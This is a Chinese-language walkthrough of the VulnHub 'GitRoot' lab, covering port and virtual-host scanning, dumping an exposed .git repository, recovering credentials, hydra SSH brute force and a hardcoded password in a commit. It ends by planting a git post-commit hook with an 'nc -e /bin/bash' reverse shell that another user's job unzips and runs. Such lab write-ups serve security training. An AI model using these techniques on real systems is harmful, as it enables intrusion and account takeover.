





# Gitroot

> https://download.vulnhub.com/gitroot/GitRoot.ova

靶场IP：`192.168.2.20`

扫描对外端口服务

```
┌──(root㉿kali)-[~/Desktop]
└─# nmap -p1-65535 -sV 192.168.2.20
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-13 08:43 EDT
Nmap scan report for 192.168.2.20
Host is up (0.00024s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE   VERSION
22/tcp    open  ssh       OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http      Apache httpd 2.4.38 ((Debian))
11211/tcp open  memcache?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port11211-TCP:V=7.92%I=7%D=9/13%Time=63207B0C%P=x86_64-pc-linux-gnu%r(R
SF:PCCheck,27,"\x81\0\0\0\0\0\0\x81\0\0\0\x0f\0\0\0\x02\0\0\0\0\0\0\0\0Unk
SF:nown\x20command");
MAC Address: 08:00:27:DF:CD:B2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.36 seconds

```

访问80端口



配置本地hosts

```
192.168.2.20 wp.gitroot.vuln
192.168.2.20 gitroot.vuln
```

访问：`http://wp.gitroot.vuln`


爆破子域名

```
┌──(root㉿kali)-[/tmp]
└─# gobuster vhost -u gitroot.vuln -w /usr/share/wordlists/dirb/common.txt | grep 200
Found: repo.gitroot.vuln (Status: 200) [Size: 438]          
Found: wp.gitroot.vuln (Status: 200) [Size: 10697]     
```

配置本地hosts

```
192.168.2.20 repo.gitroot.vuln
```

访问：`http://repo.gitroot.vuln`



爆破目录

```
┌──(root㉿kali)-[/tmp]
└─# gobuster dir -u http://repo.gitroot.vuln/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://repo.gitroot.vuln/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/13 09:46:28 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 282]
/.htpasswd            (Status: 403) [Size: 282]
/.git/HEAD            (Status: 200) [Size: 23] 
/.hta                 (Status: 403) [Size: 282]
/index.php            (Status: 200) [Size: 438]
/javascript           (Status: 301) [Size: 327] [--> http://repo.gitroot.vuln/javascript/]
/manual               (Status: 301) [Size: 323] [--> http://repo.gitroot.vuln/manual/]    
/server-status        (Status: 403) [Size: 282]                                           
                                                                                          
===============================================================
2022/09/13 09:46:29 Finished
===============================================================

```

使用GitDumper 下载git源码

```
┌──(root㉿kali)-[/tmp]
└─# git-dumper http://repo.gitroot.vuln/ source
```



他会列出各种各样的文件，但我们会保留这个：



我们有两个有趣的文件，好吧，实际上我们只有一个，" **pablo_HELP.txt** "文件已被删除，但我们会拯救它！

新文件的内容：

```
┌──(root㉿kali)-[/tmp]
└─# curl http://repo.gitroot.vuln/33513a92c025212dd3ab564ca8682e2675f2f99bba5a7f521453d1deae7902aa.txt
pablo_S3cret_P@ss
beth_S3cret_P@ss
jen_S3cret_P@ss
```

现在，我们将使用**[GitTools](https://github.com/internetwache/GitTools)** Kit **Extractor**工具（包括" **pablo_HELP** "）恢复所有文件

```
┌──(root㉿kali)-[/opt/GitTools/Extractor]
└─# ./extractor.sh /tmp/source /tmp/dest
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: b35845fa33144640c092aa3776ab3d59951688c9
[+] Found file: /tmp/dest/0-b35845fa33144640c092aa3776ab3d59951688c9/get.php
[+] Found file: /tmp/dest/0-b35845fa33144640c092aa3776ab3d59951688c9/index.php
[+] Found commit: ce3843e497dd28f992250d36ee1b4e8c9e0f18e9
[+] Found file: /tmp/dest/1-ce3843e497dd28f992250d36ee1b4e8c9e0f18e9/get.php
[+] Found file: /tmp/dest/1-ce3843e497dd28f992250d36ee1b4e8c9e0f18e9/index.php
[+] Found file: /tmp/dest/1-ce3843e497dd28f992250d36ee1b4e8c9e0f18e9/set.php
[+] Found file: /tmp/dest/1-ce3843e497dd28f992250d36ee1b4e8c9e0f18e9/stats.php
[+] Found commit: b069fdde4cf12980175c3fbd79316fe42b57e19a
[+] Found file: /tmp/dest/2-b069fdde4cf12980175c3fbd79316fe42b57e19a/get.php
[+] Found file: /tmp/dest/2-b069fdde4cf12980175c3fbd79316fe42b57e19a/index.php
[+] Found file: /tmp/dest/2-b069fdde4cf12980175c3fbd79316fe42b57e19a/set.php
[+] Found commit: a4e7f0852ebe819f3aba9419198a74990b6992c0
[+] Found file: /tmp/dest/3-a4e7f0852ebe819f3aba9419198a74990b6992c0/33513a92c025212dd3ab564ca8682e2675f2f99bba5a7f521453d1deae7902aa.txt
[+] Found file: /tmp/dest/3-a4e7f0852ebe819f3aba9419198a74990b6992c0/get.php
[+] Found file: /tmp/dest/3-a4e7f0852ebe819f3aba9419198a74990b6992c0/index.php
[+] Found file: /tmp/dest/3-a4e7f0852ebe819f3aba9419198a74990b6992c0/pablo_HELP.txt
[+] Found file: /tmp/dest/3-a4e7f0852ebe819f3aba9419198a74990b6992c0/set.php
[+] Found file: /tmp/dest/3-a4e7f0852ebe819f3aba9419198a74990b6992c0/stats.php
[+] Found commit: e4e93b41309b7f2d7adab20bcff048a93f7444c0
[+] Found file: /tmp/dest/4-e4e93b41309b7f2d7adab20bcff048a93f7444c0/get.php
[+] Found file: /tmp/dest/4-e4e93b41309b7f2d7adab20bcff048a93f7444c0/index.php
[+] Found file: /tmp/dest/4-e4e93b41309b7f2d7adab20bcff048a93f7444c0/pablo_HELP.txt
[+] Found file: /tmp/dest/4-e4e93b41309b7f2d7adab20bcff048a93f7444c0/set.php
[+] Found file: /tmp/dest/4-e4e93b41309b7f2d7adab20bcff048a93f7444c0/stats.php
[+] Found commit: 9ca43fb2bc47e82b4addbba42f38eacbd6fcb588
[+] Found file: /tmp/dest/5-9ca43fb2bc47e82b4addbba42f38eacbd6fcb588/index.php

```

`pablo_HELP` 文件

```
┌──(root㉿kali)-[/opt/GitTools/Extractor]
└─# cat /tmp/dest/3-a4e7f0852ebe819f3aba9419198a74990b6992c0/pablo_HELP.txt
I need help, something is wrong with this git repo

```

没什么用，我们继续检查 .php 文件，我们在文件" `set.php` "中发现了一些凭据。

```
┌──(root㉿kali)-[/tmp]
└─# cat /tmp/dest/2-b069fdde4cf12980175c3fbd79316fe42b57e19a/set.php
<!doctype html>

<html>
<head>

    <title>Code storage</title>
</head>

<body>
        <h1>Welcome to our code storage area</h1>

<?php
if (isset($_GET["key"]) && isset($_GET["value"]) ){
        $key =   $_GET["key"];
        $value = $_GET["value"];
        $gitmem = new Memcached();
        $gitmem->setOption(Memcached::OPT_BINARY_PROTOCOL, true);
        $gitmem->setSaslAuthData("pablo@gitroot", "ihjedpvqfe");
        $gitmem->addServer("127.0.0.1", 11211);
        $response = $gitmem->set($key, $value);
        if ($response) {
                echo "Success!";
        }
        else{
                echo "Failed";
        }
}
else {
        echo '<p>key or value not set</p>';
}
?>

```

我们在 WordPress 和 SSH 中都使用了凭据，但没有成功。虽然我们已经知道用户的名字，但我们还是使用" **rockyou** "字典**对 SSH 服务**进行了暴力攻击。

```
┌──(root㉿kali)-[/tmp]
└─# hydra -l pablo -P /usr/share/wordlists/rockyou.txt ssh://gitroot.vuln
```

发现密码：`pablo/mastergitar`

ssh登录

```
┌──(root㉿kali)-[~]
└─# ssh pablo@gitroot.vuln                                   
The authenticity of host 'gitroot.vuln (192.168.2.20)' can't be established.
ED25519 key fingerprint is SHA256:60rNw8fczihsSqs64B1Lf2E1VkCGOsuq8BTev2ELwLw.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'gitroot.vuln' (ED25519) to the list of known hosts.
pablo@gitroot.vuln's password: 
Linux GitRoot 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 26 01:30:55 2020 from 192.168.56.1
pablo@GitRoot:~$ 
pablo@GitRoot:~$ id
uid=1000(pablo) gid=1000(pablo) groups=1000(pablo)
pablo@GitRoot:~$ cat user.txt 

  _______ _                 _                          _____      _     _       
 |__   __| |               | |                        |  __ \    | |   | |     
    | |  | |__   __ _ _ __ | | __  _   _  ___  _   _  | |__) |_ _| |__ | | ___  
    | |  | '_ \ / _` | '_ \| |/ / | | | |/ _ \| | | | |  ___/ _` | '_ \| |/ _ \ 
    | |  | | | | (_| | | | |   <  | |_| | (_) | |_| | | |  | (_| | |_) | | (_) 
    |_|  |_| |_|\__,_|_| |_|_|\_\  \__, |\___/ \__,_| |_|   \__,_|_.__/|_|\___/ 
                                    __/ |                                       
                                   |___/                                        


Great job! Do not falter, there is more to do. You made it this far, finish the race!

"It's not that I'm so smart. Its just that I stay with problems longer." - Albert Einstein 

8a81007ea736a2b8a72a624672c375f9ac707b5e

```

我们不断列出" **Pablo** "文件夹的内容，我们找到一个名为" **public** "的文件夹，在其中，我们有一条消息邀请我们检查一个新的 git 存储库。

```
pablo@GitRoot:~$ cd public/
pablo@GitRoot:~/public$ ls
message.txt
pablo@GitRoot:~/public$ cat message.txt 
Hey pablo

Make sure to check-out our brand new git repo!

```

我们发现一条消息告诉我们检查 git repo。因此，让我们使用 find 检查 `.git` 目录。

```
pablo@GitRoot:~/public$ find / -name .git 2>/dev/null
/opt/auth/.git
/var/www/repo/.git
```

我们将看看 `/opt/auth/.git`。在那个目录里面，我们发现有很多使用 git branch 的分支。所以我们可以查看日志，看看是否有对我们很重要的东西。由于有很多重复的单词，我在日志目录中使用了这个命令。

```
pablo@GitRoot:/opt/auth/.git/logs$ strings HEAD | grep -v 'init repo' | grep -v 'moving from'
b2ab5f540baab4c299306e16f077d7a6f6556ca3 06fbefc1da56b8d552cfa299924097ba1213dd93 Your Name <you@example.com> 1590500148 -0400  commit: added some stuff
```

查看commit内容

```
pablo@GitRoot:/opt/auth/.git/logs$ git show 06fbefc1da56b8d552cfa299924097ba1213dd93
commit 06fbefc1da56b8d552cfa299924097ba1213dd93
Author: Your Name <you@example.com>
Date:   Tue May 26 09:35:48 2020 -0400

    added some stuff

diff --git a/main.c b/main.c
index 70e6397..8af9b9c 100644
--- a/main.c
+++ b/main.c
@@ -4,6 +4,15 @@
 int main(){
 
         char pass[20];
-       return 0;
+        scanf("%20s", pass);
+        printf("You put %s\n", pass);
+        if (strcmp(pass, "r3vpdmspqdb") == 0 ){
+                char *cmd[] = { "bash", (char *)0 };
+                execve("/bin/bash", cmd, (char *) 0);
+        }
+        else{
+                puts("BAD PASSWORD");
+        }
+        return 0;
 }
-//43
+

```

切换到`beth`用户

```
pablo@GitRoot:/tmp$ su beth
Password: 
beth@GitRoot:/tmp$ id
uid=1001(beth) gid=1001(beth) groups=1001(beth)
beth@GitRoot:/tmp$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for beth: 
Sorry, user beth may not run sudo on GitRoot.

```

查看`addToMyRepo.txt`文件

```
beth@GitRoot:/tmp$ cd ~
beth@GitRoot:~$ ls
public
beth@GitRoot:~$ cd public/
beth@GitRoot:~/public$ ls
addToMyRepo.txt
beth@GitRoot:~/public$ cat addToMyRepo.txt 
Hello Beth

If you want to commit to my repository you can add a zip file to ~jen/public/repos/ and ill unzip it and add it to my repository

Thanks!

```

> 如果您想提交到我的存储库，您可以将 zip 文件添加到 ~jen/public/repos/ 并解压缩并将其添加到我的存储库
>
> 谢谢！

在tmp目录下创建

```
git init 
```

创建提交后 (chmod 777 incase) 

```
echo 'nc -e /bin/bash <ip> <port>' > '/tmp/.git/hooks/post-commit'
```

压缩我们的 .git 目录

```
7z a shell.zip .git
```

将我们的zip文件复制到Jen Repos，在那里它将解压缩并放入公共文件夹

```
cp shell.zip /home/jen/public/repos/shell.zip
```


